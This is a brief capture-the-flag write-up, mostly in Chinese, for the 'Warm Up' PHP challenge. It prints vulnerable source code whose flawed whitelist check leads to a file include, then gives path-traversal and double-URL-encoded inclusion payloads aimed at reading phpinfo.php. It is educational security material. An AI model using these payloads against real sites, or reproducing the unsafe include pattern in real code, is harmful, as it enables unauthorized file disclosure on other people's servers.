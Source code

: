 #Warm Up

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <!--source.php-->
    
    <br><img src="https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg" /></body>
</html>

#source.php

<?php 
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr( #page内容末尾不能有？
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) { 
                return true;
            }

            $_page = urldecode($page); 
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?') 
            );
            if (in_array($_page, $whitelist)) { 
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>

经过代码审计，可以尝试构造payload：

	?file=%253f../../phpinfo.php 
	
也可以直接目录穿越：

	sourec.php?/../phpinfo.php #根据目标环境决定

